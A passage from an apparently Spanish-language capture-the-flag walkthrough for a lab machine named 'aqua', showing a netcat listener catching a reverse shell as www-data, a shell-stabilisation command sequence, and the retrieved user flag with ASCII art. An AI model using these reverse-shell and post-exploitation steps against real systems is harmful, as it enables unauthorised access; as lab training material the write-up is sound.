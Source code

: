 Y funciona

```bash
❯ netcat -lvnp 443
listening on [any] 443 ...
connect to [192.168.1.77] from (UNKNOWN) [192.168.1.84] 45908
bash: cannot set terminal process group (1039): Inappropriate ioctl for device
bash: no job control in this shell
www-data@aqua:/var/www/html$ whoami
whoami
www-data
www-data@aqua:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(megumin)
www-data@aqua:/var/www/html$ 
```

Para que tengas una mejor shell

```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
ENTER
```

## User flag

```bash
www-data@aqua:/home/aqua/Desktop$ cat user.txt 

Congratulations!


                         ((/                                                   
                     ,(##########((                                            
                   (###############((#(//                                      
                 #####(#/,(###########(###(.                                   
               ,####(#,/,(########((#####(###(/                                
               #####(,##(#(###(#(#/,,,,,(,,#,,,/                               
             ((##(###(#(#(*,/,,(*,,,(#/(,**,,/(/*/                             
           (#####%(##(((*#(,,,(,,,,/((%############.                           
         ###%%##%%(#/,/*,,,/(#(#(#(####################(.                      
     /,*          ((,,((#(###(########(/,,,,*/*,,,,(########(                  
  ,,,,/          (,,,(##########(,,,*((%%%%,%%%%%%%%#(*,,(#######/             
 ***/            ((#(######(,,*(%%,#%%%%%%%%.%%%%%%%%(%#%#(#(((/,,/(((,        
                 ######(,,/#%(%%%#..%/%%%%%%#.#%%(%%%%#%(############(,        
              ,#####(,,(%%%%%%%((*...#(######( (####(#(%%(%#(/.                
            *#####,,(%%%%%%%%(//#  ,, /(/######/*###(#(##(                     
          ,####(,/(%%%%%%%%#(. /(.  .*       /(((//*(#(###/                    
         (###(,(%(%%%%%%####( /   ,(((        *(( ((,#%##((                    
       /###(,(#%#%#%%#,###### .  ((((,/       .,(/(* .#(#(#                    
      (##,*#%#%%##%#(( #######   (*,,*            . .  (#(*                    
    /(,/##########(#(#((##(##.*   ,.             ,***/ (#(                     
  /###((((((/.     #(##(#####. .,...  /.///////((      ((,                     
                     (##(##(#/.       ///////////     #%#                      
                      #(###((#..      (////////(   /#%%((.                     
                      , (###%((%%%%,(   .//(/. /(%%%#(#                        
                        .#%##((%%%/,*%%##%%(/%*/%%%%(/           (,(.*         
                        .(#%((%/,(,(*/,    ./#%(*##%#(           #(((/(****/   


Now, there are two ways to get root. I'll let you choose. If you managed to get both, that's gonna be AWESOME to hear! Good luck!

```